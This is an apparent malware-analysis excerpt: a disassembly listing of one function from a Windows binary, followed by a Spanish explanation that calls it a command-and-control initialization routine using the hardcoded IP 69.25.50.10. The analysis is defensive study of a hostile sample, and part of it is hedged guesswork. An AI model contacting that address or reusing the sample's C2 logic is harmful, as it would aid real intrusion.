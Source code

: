                             //
                             // .text
                             // ram:00401000-ram:00401dff
                             //
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined4 __stdcall FUN_00401000(void)
                               assume FS_OFFSET = 0xffdff000
             undefined4        EAX:4          <RETURN>
                             FUN_00401000                                    XREF[3]:     00400114(*), 004001ec(*),
                                                                                          entry:00401d1d(c)
        00401000 b8 88 1d        MOV        EAX,LAB_00401d88
                 40 00
        00401005 e8 b6 0b        CALL       FUN_00401bc0                                     undefined FUN_00401bc0(void)
                 00 00
        0040100a 51              PUSH       ECX
        0040100b 68 10 30        PUSH       s_69.25.50.10_00403010                           = "69.25.50.10"
                 40 00
        00401010 8d 4d f0        LEA        ECX,[EBP + -0x10]
        00401013 e8 26 00        CALL       FUN_0040103e                                     undefined FUN_0040103e(void * th
                 00 00
        00401018 83 65 fc 00     AND        dword ptr [EBP + -0x4],0x0
        0040101c 8d 4d f0        LEA        ECX,[EBP + -0x10]
        0040101f e8 d0 04        CALL       FUN_004014f4                                     uint FUN_004014f4(void)
                 00 00
        00401024 83 4d fc ff     OR         dword ptr [EBP + -0x4],0xffffffff
        00401028 8d 4d f0        LEA        ECX,[EBP + -0x10]
        0040102b e8 86 0b        CALL       FUN_00401bb6                                     undefined FUN_00401bb6(void)
                 00 00
        00401030 8b 4d f4        MOV        ECX,dword ptr [EBP + -0xc]
        00401033 33 c0           XOR        EAX,EAX
        00401035 64 89 0d        MOV        dword ptr FS:[0x0]=>ExceptionList,ECX            = 00000000
                 00 00 00 00
        0040103c c9              LEAVE
        0040103d c3              RET



    La función FUN_00401000 es una rutina de inicialización y comunicación con un servidor remoto C2 (Command & Control):

    Usa una IP hardcodeada para comunicarse (69.25.50.10)

    Prepara una estructura (probablemente socket o datos)

    Establece una conexión o envía/recibe datos

    Utiliza excepciones estructuradas (SEH) posiblemente para ofuscar su ejecución o evitar detección

    Limpia recursos y finaliza con éxito (devuelve 0)
